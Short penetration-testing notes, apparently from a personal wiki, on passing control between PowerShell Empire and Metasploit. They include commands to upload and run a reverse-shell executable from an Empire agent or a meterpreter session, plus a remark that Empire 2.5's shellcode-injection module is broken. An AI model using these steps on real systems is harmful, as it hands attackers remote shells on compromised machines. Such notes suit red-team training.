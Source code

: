 # Switching Between Empire And Metasploit

When switching between [[Metasploit]] and [[Empire]], using one of the [[MSFvenom-Payloads]]

## Caveats
In PowerShell Empire version 2.4, it was possible to use a meterpreter listener and the injectshellcode module to inject a meterpreter shellcode directly in memory from PowerShell. However, in the newest version (2.5) this code is unfortunately broken.

## Empire to Metasploit
With `multi/handler` waiting on the same `LHOST` and `LPORT` configuration with  one of the [[MSFvenom-Payloads]] 
```powershell
Empire: <AgentName> > upload /path/to/reverse/shell.exe
Empire: <AgentName> > shell /path/to/reverse/shell.exe
```

## Metasploit to Empire
Either with [[Meterpreter-Commands]]
```powershell
meterpreter > upload /path/to/reverse/shell.exe
shell
```
Or regular builtin techniques for [[File-Transfers]] or [[Windows-File-Transfers]].